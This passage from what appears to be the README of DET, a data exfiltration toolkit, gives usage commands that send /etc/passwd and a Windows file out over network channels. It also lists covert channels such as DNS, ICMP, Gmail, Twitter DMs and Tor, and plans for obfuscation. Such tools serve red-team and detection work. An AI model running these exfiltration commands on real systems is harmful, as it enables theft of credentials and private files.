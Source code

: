 To load every plugin and exclude DNS: 

```bash
python det.py -c ./config.json -e dns -f /etc/passwd
```
And in PowerShell (HTTP module): 

```powershell
PS C:\Users\user01\Desktop>
PS C:\Users\user01\Desktop> . .\http_exfil.ps1
PS C:\Users\user01\Desktop> HTTP-exfil 'C:\path\to\file.exe'
```

# Modules

So far, DET supports multiple protocols, listed here: 

- [X] HTTP(S)
- [X] ICMP
- [X] DNS
- [X] SMTP/IMAP (eg. Gmail)
- [X] Raw TCP
- [X] PowerShell implementation (HTTP, DNS, ICMP, SMTP (used with Gmail))

And other "services": 

- [X] Google Docs (Unauthenticated)
- [X] Twitter (Direct Messages)

# Experimental modules

So far, I am busy implementing new modules which are almost ready to ship, including: 

- [ ] Skype (95% done)
- [ ] Tor (80% done)
- [ ] Github (30/40% done)

# Roadmap

- [X] Add proper encryption (eg. AES-256)
- [ ] Compression (extremely important!)
- [ ] Proper data obfuscation and integrating [Markovobfuscate](https://github.com/bwall/markovobfuscate)
- [ ] FTP, FlickR [LSB Steganography](https://github.com/RobinDavid/LSB-Steganography) and Youtube modules

# References

Some pretty cool references/credits to people I got inspired by with their project: 

- [https://github.com/nullbind/Powershellery/](Powershellery) from Nullbind.
- [https://github.com/ytisf/PyExfil](PyExfil), truely awesome. 
- [https://github.com/m57/dnsteal](dnsteal) from m57.
- [https://github.com/3nc0d3r/NaishoDeNusumu](NaishoDeNusumu) from 3nc0d3r.
- [https://github.com/glennzw/exphil](Exphil) from Glenn Wilkinson.
- WebExfile from Saif El-Sherei
